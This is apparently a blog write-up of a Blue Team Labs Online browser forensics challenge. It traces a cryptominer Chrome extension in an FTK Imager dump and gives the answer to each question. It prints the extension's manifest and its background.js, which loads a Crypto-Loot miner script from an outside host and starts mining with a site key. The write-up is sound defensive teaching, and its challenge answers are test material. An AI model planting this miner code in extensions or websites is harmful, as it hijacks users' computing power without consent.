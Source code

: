 ```yaml
---
layout: article
title: Browser Forensics - Cryptominer
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://cdn.pixabay.com/photo/2020/10/22/01/46/cryptocurrency-5674685_1280.png
permalink: /writeups/browser-crypto-miner
tags:
- BTLO
- Challenges
author: z3f1r0
---
```

## Scenario
Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Introduction
First of all, I downloaded "Browser Dump" file and copied it to a Windows VM where it was installed FTK Imager. 

- Here you can download FTK --> [FTK Imager download](https://www.exterro.com/ftk-imager){:target="_blank"}

Inside "Browser Dump" there are two files:
- **browserdata.ad1**
- **browserdata.ad1.txt**

You have to load **browserdata.ad1** on FTK Imager. I suggest to learn how to FTK Imager works before make the challenge.

When we talk about browser artifacts we talk about, navigation history, bookmarks, list of downloaded files, cache data…etc.
These artifacts are files stored inside of specific folders in the operating system. Each browser stores its files in a different place than other browsers and they all have different names.

## Challenge Submission

### How many browser-profiles are present in Google Chrome?

Profile Path usually is inside **C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default** and there is another folder with the same structure: **Profile 1**

>2 

### What is the name of the browser theme installed on Google Chrome?

Path where Chrome Extensions are installed:
```text
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Extensions
```

In the following path I discovered Theme's name: *C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0*

```JSON
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
```

>Earth in Space

### Identify the Extension ID and Extension Name of the cryptominer

Continuing to look inside "Extensions", I discovered the following content inside a *manifest.json* file:

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}

```

Referring to *description* and *name* we can understand that this is the cryptominer.

> egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner

### What is the description text of this extension?

> Allows staff members to mine cryptocurrency in the background of their web browser

### What is the name of the specific javascript web miner used in the browser extension?

Opening **background.js** I found the answer.

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

> crypto loot

### How many hashes is the crypto miner calculating per second?

```js
// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
```

>20

### What is the public key associated with this mining activity?

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0')
```

### What is the URL of the official Twitter page of the javascript web miner?

Just a Google search.

>twitter.com/CryptoLootMiner


*References*:
- [https://nasbench.medium.com/web-browsers-forensics-7e99940c579a](https://nasbench.medium.com/web-browsers-forensics-7e99940c579a){:target="_blank"}
- [https://focusinfotech.com/blog/browser-forensics](https://focusinfotech.com/blog/browser-forensics){:target="_blank"}
- [https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433](https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433){:target="_blank"}
